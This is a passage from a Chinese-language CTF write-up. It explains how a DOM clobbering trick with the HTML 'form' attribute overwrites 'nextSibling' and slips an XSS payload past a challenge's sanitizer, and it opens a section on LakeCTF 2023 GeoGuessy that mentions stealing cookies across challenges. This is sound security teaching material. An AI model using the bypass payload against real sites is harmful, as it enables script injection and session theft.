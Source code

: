 理所当然地把元素放在 form 里面，就可以污染 `test.x` 。

但其实还有一招是使用 `form` 属性，就可以把元素放在外面：

```markup
<input form=test name=x>
<form id="test"></form>
```

这一题的 sanitizer 在移除元素时，是这样做的：

```javascript
removeNode = (currentNode) => {
    const parentNode = currentNode.parentNode;
    const childNodes = currentNode.childNodes;

    if (childNodes && parentNode) {
        const childCount = childNodes.length;

        for (let i = childCount - 1; i >= 0; --i) {
            parentNode.insertBefore(
                childNodes[i].cloneNode(),
                currentNode.nextSibling
            );
        }
    }

    currentNode.parentElement.removeChild(currentNode);
}
```

把要删除的元素底下的 node，都插入到 parent 的 nextSibling 去。

因此，如果 clobber 了 nextSibling，制造出这样的结构：

```markup
<input form=test name=nextSibling> 
<form id=test>
  <input name=nodeName>
  <img src=x onerror=alert(1)>
</form>
```

就会在移除 `<form>` 时，把底下的节点都插入到 `<input form=test name=nextSibling>` 后面，借此绕过sanitizer。

真有趣的题目！虽然知道有 `form` 这个属性，但还没想过可以拿来搭配 DOM clobbering。

作者的 writeup：[https://twitter.com/kevin\_mizu/status/1701922141791211776](https://twitter.com/kevin_mizu/status/1701922141791211776)

## LakeCTF 2023 GeoGuessy

來源是參考這篇 writeup： XSS， Race Condition， XS-Leaks and CSP & iframe 的沙盒旁路 - LakeCTF 2023 GeoGuessy

先来看两个有趣的 unintended，第一个是利用 cookie 不看 port 的特性，用其他题目的 XSS 来拿到 cookie，不同题目之间如果没有隔离好就会这样，例如说 SekaiCTF 2023 - leakless note 也是。
